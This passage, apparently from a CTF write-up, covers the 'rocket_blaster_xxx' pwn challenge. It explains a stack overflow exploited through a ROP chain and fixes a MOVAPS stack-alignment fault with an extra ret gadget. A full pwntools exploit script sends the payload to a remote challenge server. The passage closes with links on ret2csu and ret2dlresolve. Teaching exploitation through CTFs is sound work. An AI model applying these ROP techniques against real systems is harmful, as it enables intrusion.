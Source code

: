 Thus, to exploit this, we need to use ROP (Return-Oriented-Programming), such that after the overwrite, our program will jump to some gadgets which will modify the registers accordingly, then jump to the winner function. Use `ROPGadget` to find gadgets for `POP RDI; RET`, `POP RSI; RET` and `POP RDX; RET`.

Now that we have those gadgets, we can start figuring out the exploit. We'll first have to identify the number of bytes needed until we overwrite `RIP`. In this case, it is 40. Then, we'll put, in this order, our `POP RDI` gadget, followed by the value we need into `RDI` (first param), then `POP RSI`, followed by its value (second param), then `POP RDX`, followed by its value (third param), and lastly, we'd want to call the `fill_ammo` function, so put its address there (obtained either from `Ghidra` or `GDB`).

Trying this exploit will fail on a `MOVAPS` instruction somewhere in calls to `printf`. `MOVAPS` refers to moving aligned pointers, and it tries to move something indexed from `RSP`, thus, the current exploit chain de-aligned our stack and made it fail. (reference: `https://stackoverflow.com/questions/38335212/calling-printf-in-x86-64-using-gnu-assembler` - "It requires that just before a CALL that the stack be at least 16-byte (or 32-byte) aligned.")
Stack aligned means that `RSP % 16 == 0`.
To fix this, find a simple `RET` instruction with `ROPGadget`, and place it right after the overwrite.

This should fix the alignment, and make the exploit work.

```Python
		from pwn import *
		overwrite = b"\x00" * 40
		align = p64(0x000000000040101a)
		poprdi = p64(0x000000000040159f)
		value_rdi = p64(0xdeadbeef)
		poprsi = p64(0x000000000040159d)
		value_rsi = p64(0xdeadbabe)
		poprdx = p64(0x000000000040159b)
		value_rdx = p64(0xdead1337)
		win_func = p64(0x004012f5)
		payload = overwrite + align + poprdi + value_rdi + poprsi + value_rsi + poprdx + value_rdx + win_func
		#p = process("./rocket_blaster_xxx")
		p = remote("94.237.55.185", 46277)
		print(p.recv())
		p.sendline(payload)
		p.interactive()
```

### some notes for sound of silence, maybe (as there was no csu to use, but I think we had to overwrite GOT somehow), but interesting nonetheless 

kinda close `https://ctftime.org/writeup/38340`
ret2csu `https://ir0nstone.gitbook.io/notes/types/stack/ret2csu`
one_gadget `https://github.com/david942j/one_gadget`

could as well be a ret2dlresolve attack lmao `https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/ret2dlresolve/README.md`
good pwn resources `https://github.com/ir0nstone/pwn-notes/tree/master/types/stack`
